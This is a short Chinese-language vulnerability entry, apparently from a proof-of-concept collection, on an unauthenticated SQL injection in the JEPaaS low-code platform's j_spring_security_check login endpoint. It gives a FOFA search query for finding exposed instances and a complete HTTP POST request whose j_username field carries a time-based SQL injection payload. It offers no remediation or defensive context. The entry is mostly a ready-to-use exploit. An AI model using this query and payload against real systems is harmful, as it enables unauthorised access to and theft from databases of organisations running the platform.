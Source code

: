 ## JEPaaS低代码平台j_spring_security_check存在SQL注入漏洞

JEPaaS低代码平台j_spring_security_check存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用SQL注入漏洞获取数据库中的信息。

## fofa

```
body="/saas/saasYhAction!sendRandom.action"
```

## poc

```
POST /j_spring_security_check HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Content-Type: application/x-www-form-urlencoded
 
j_username=');DECLARE @x CHAR(9);SET @x=0x303a303a35;WAITFOR DELAY @x--
```